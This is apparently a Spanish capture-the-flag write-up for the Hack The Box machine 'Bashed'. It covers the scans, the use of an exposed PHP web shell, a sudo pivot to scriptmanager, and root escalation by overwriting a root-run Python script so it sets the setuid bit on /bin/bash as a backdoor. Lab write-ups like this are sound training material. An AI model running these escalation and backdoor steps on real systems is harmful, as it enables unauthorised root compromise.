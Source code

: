 # Bashed ![Avatar](https://www.hackthebox.eu/storage/avatars/0f058b73659ca043de9f5240abd651ca_thumb.png)

## Initial Scan
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

## Enum
### HTTP
#### Gobuster
```
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/dev (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/php (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```
#### Dev
En /dev tenemos la shell de la que se habla en la main page, con ella tenemos un RCE con el que podemos obtener una shell directamente, en concreto yo use el comando para invocarla usanda python

## Privesc 
### Scriptmanager
```
User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
Con esto podemos escalar de manera sencilla en horizontal hacia scriptmanager con simplemente usar el siguiente comando
```
sudo -u scriptmanager /bin/bash
```
### Root
En / tenemos un directorio pertenciente a nuestro usuario actual
```
drwxrwxr--   2 scriptmanager scriptmanager  4096 Aug 21 18:52 scripts
```
En el tenemos dos archivos un test.txt y un test.py, el test.txt esta owned por el root, lo que me lleva a pensar que se ha ejecutado como root con ps aux lo confirmamos
```
root      16264  0.0  0.9  34220  9100 ?        S    12:18   0:00 python test.py
```
Sutituyamoslo por lo siguiente
```
import os
os.system("chmod +s /bin/bash")
```
Y al poco tendremos una backdoor como root
```
-rwsr-sr-x 1 root root 1037528 Jun 24  2016 bash
scriptmanager@bashed:/bin$ /bin/bash -p
bash-4.3# id
``` 
Y ya estaria

# Analisís de la intrusión
### RCE
En /dev tenemos un script php diseñado directamente para tener RCE en el servidor, con el obtenemos el acceso incial
### Execution as scriptmanager
Desde www-data podemos ejecutar comandos como scriptmanger lo que nos permite comprometer a ese usuario totalmente
### Privileged script execution
La carpeta scripts en la que podemos añadir o modificar scripts a nuestro antojo se ejecuta entera como root de modo que podemos ejecutar cualquier tipo de comando mediante la libreria de python os


